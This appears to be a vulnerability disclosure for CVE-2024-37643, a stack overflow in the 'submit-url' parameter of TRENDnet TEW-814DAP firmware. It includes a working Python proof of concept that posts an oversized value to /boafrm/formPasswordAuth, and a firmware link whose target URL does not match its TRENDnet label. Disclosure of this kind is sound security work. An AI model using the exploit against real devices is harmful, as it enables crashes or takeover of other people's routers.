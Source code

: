 # TRENDnet TEW-814DAP v1_(FW1.01B01) stack overflow  at /formPasswordAuth

Product: TRENDnet TEW-814DAP Firmware Version: v1_(FW1.01B01)  

Manufacturer's website information：http://trendnet.com.cn/

Firmware download address ：[http://download.trendnet.com/](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/257/ids/36.html)

### CVE-ID : 

CVE-2024-37643

### Analysis

The decompiled code of function which read value of parameter "submit-url" and call send_redirect_perm function with the value as a parameter.

![image-20240613141825841](./image-20240613141825841.png)

![image-20240613142114586](./image-20240613142114586.png)

Parameter a2 is copied to buffer v14 through the sprintf function, but the length of parameter a2 is not checked.

Therefore, attackers can hijack the program or cause a DDoS attack by carefully constructing data.

![image-20240613142206911](./image-20240613142206911.png)



### POC

```python
import argparse, requests, sys, base64

def get_cookie(base_url):
    return requests.get(base_url).headers.get('Set-Cookie')

def exploit(base_url, cookie):
    url = f"{base_url}/boafrm/formPasswordAuth"
    login_pass = base64.b64encode("password".encode()).decode()
    data = {
        'login_name': 'Admin',
        'login_pass': login_pass,
        'submit-url': 'A' * 1000
    }
    return requests.post(url, headers={'Cookie': cookie}, data=data, allow_redirects=False)

if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument('ip', type=str, help='The server ip')
    args = parser.parse_args()
    base_url = f"http://{args.ip}"
    cookie = get_cookie(base_url)
    exploit(base_url, cookie)
```


